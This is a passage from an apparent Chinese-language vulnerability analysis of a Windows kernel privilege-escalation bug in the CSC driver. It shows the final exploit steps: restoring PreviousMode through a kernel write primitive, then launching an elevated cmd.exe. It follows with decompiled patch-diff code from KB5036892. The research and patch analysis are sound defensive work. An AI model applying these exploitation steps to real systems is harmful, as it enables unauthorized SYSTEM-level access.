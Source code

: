 ### 恢复 PreviousMode 为 UserMode

如果不进行此操作则会触发 BSOD：

```
// 恢复 PreviousMode 为 UserMode
Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

```

### 执行高权限命令

```
system("cmd.exe");

```

成功提权。

补丁分析
====

分析的补丁为 KB5036892，该补丁进行的调整：

*   新增了 17 个函数
*   1 个函数进行代码调整：`CscDevFcbXXXControlFile()`
    *   增加`Feature_1543900478__private_IsEnabled()`
    *   增加`ProbeForWrite()`

CscDevFcbXXXControlFile 函数变动
----------------------------

查看该函数变动：  
![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1718463390049-d88f8d84-961a-4e39-b5ed-cd38f7e84917.png#averageHue=%23f4f3f3&clientId=u6d02a70a-c0bb-4&from=paste&height=1027&id=ud50da69d&originHeight=1284&originWidth=2244&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=323737&status=done&style=none&taskId=u670a13af-1c9d-4aa1-ab03-abdece39327&title=&width=1795.2)  
可以看到在 FSCTL code 等于`0x1401a3`后，新增了`Feature_1543900478__private_IsEnabled`功能判断，该函数是微软补丁用来适配未打补丁的系统的，因此打了补丁的系统会让该函数返回值为 1，进入 else 判断中：

```
if (*(int *)(param_1 + 0x20c) == 0x1401a3) {
  uVar4 = Feature_1543900478__private_IsEnabled();
  if (uVar4 == 0) {
    *(undefined8 *)(param_1 + 0xb8) = 0;
    *(undefined8 *)(*(longlong *)(param_1 + 0x218) + 0x18) = 0;
    uVar5 = uVar6;
    uVar3 = 0;
  }
  else {
    *(undefined8 *)(param_1 + 0xb8) = 0;
    if (*(uint *)(param_1 + 0x228) < 0x24) {
      uVar5 = uVar6;
      uVar3 = 0x23;
    }
    else {
      lVar2 = *(longlong *)(param_1 + 0x218);
      if (*(char *)(*(longlong *)(param_1 + 0x28) + 0x40) != '\0') {
        ProbeForWrite(lVar2,*(uint *)(param_1 + 0x228),4);
      }
      if (*(int *)(lVar2 + 4) == 6) {
        *(undefined8 *)(lVar2 + 0x18) = 0;
        uVar5 = uVar6;
        uVar3 = 0;
      }
      else {
        uVar3 = 0xd;
        uVar5 = uVar6;
      }
    }
```